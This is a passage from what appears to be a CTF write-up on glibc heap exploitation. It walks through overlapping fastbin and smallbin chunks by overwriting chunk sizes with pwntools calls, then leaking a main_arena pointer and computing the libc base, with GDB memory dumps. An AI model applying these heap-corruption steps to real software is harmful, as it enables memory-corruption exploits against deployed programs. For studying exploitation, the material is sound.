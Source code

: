     0x5575d9d28010:	0x4141414141414141	0x4141414141414141
    0x5575d9d28020:	0x0000000000000000	0x0000000000000021
    0x5575d9d28030:	0x00005575d9d28060	0x0000000000000000
    0x5575d9d28040:	0x0000000000000000	0x0000000000000021
    0x5575d9d28050:	0x0000000000000000	0x0000000000000000
    0x5575d9d28060:	0x0000000000000000	0x0000000000000091
    0x5575d9d28070:	0x0000000000000000	0x0000000000000000
    ```
4. Allocate 2 more chunks that are of fast bin size:
    - We must also overwrite the size of small chunk so that it matches that of what the allocation is expecting, otherwise malloc gonna be like "nope".
    - The second allocation will then be given the same pointer as that of the small chunk allocation.
    ```
    allocate(p, 0x10) # 1
    fill(p, 1, ("B"*16)+p64(0x00)+p64(0x21)+("C"*16)+p64(0x00)+p64(0x21))
    allocate(p, 0x10) # 2
    ```
5. Free the small bin (sets the forward and back pointer to the main_arena):
    - Again the size must be adjusted before freeing to that of the small bin.
    - This should place a reference to the main_arena address into the forward and back pointer of the chunk.
    ```
    fill(p, 1, ("B"*16)+p64(0x00)+p64(0x21)+("C"*16)+p64(0x00)+p64(0x91))
    free(p, 3)
    ```
    ```
    0x55e34573c000:	0x0000000000000000	0x0000000000000021
    0x55e34573c010:	0x4141414141414141	0x4141414141414141
    0x55e34573c020:	0x0000000000000000	0x0000000000000021
    0x55e34573c030:	0x4242424242424242	0x4242424242424242
    0x55e34573c040:	0x0000000000000000	0x0000000000000021
    0x55e34573c050:	0x4343434343434343	0x4343434343434343
    0x55e34573c060:	0x0000000000000000	0x0000000000000091
    0x55e34573c070:	0x00007f56186afb78	0x00007f56186afb78
    ```
6. Dump the fast bin chunk that points to the same memory as the small bin:
    ```
    # Forgive my terrible python
    leak_string = dump(p, 2).encode('hex')
    l1 = int(leak_string[8:16], 16)
    l2 = int(leak_string[:8], 16)
    leak = int((p32(l1) + p32(l2)).encode('hex'),16)
    log.info("Leaked address: "+hex(leak))
    ```
7. Observe a libc address:
    - The main arena offset was manually calculated in a debugging session by using a known function address as a reference point (an exercise for the reader):
    ```
    libc = leak - main_arena
    log.info("Libc address: "+hex(libc))
    ```

